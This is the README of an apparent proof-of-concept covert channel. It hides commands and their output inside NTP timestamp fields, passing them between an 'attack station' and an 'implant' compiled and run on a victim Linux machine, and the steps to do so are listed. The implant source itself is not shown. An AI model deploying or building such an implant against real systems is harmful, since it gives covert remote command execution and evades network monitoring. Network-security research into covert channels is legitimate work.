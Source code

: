 # Code Overview
This Repository contains a simple Covert channel that gives users the ability to send packets to and from an attack station and a victim station over NTP.
This code not really designed for actual use, more of a proof of concept that allows us to issue commands to a terminal and get a response.
When testing with two machines on the same LAN, we have yet to lose a single packet from UDP.
The limit of one message is 32 KB.


Each packet of information is stored in 4 bytes, in the fraction portion of the transmit timestamp. The rationale for this is that both senders and receivers of this traffic update this portion of the packet. Two flags and a sequence number is stored in the source port on the victim, and in the receive timestamp on the attack station.



# HOW TO USE:

1. Compile C code on target machine (Code is designed for linux)
    - ```gcc implant.c -o implant```
2. Ensure Python is installed and install NTP python library on Attack Station
    - ```pip install ntplib```
3. Run both python scripts in separate terminals on Attack Station
    - ```sudo python3 attackbox.py```
    - ```sudo python3 server.py```
4. Run C Code on target machine
    - ```./implant <timeInterval(s)> <Target IP> <Attack IP>```
5. Once you receive "Type your message" on attackbox terminal, input your desired command in and press enter
6. Receive output on server terminal
7. Be Happy :) <--- He has lipstic on VSCode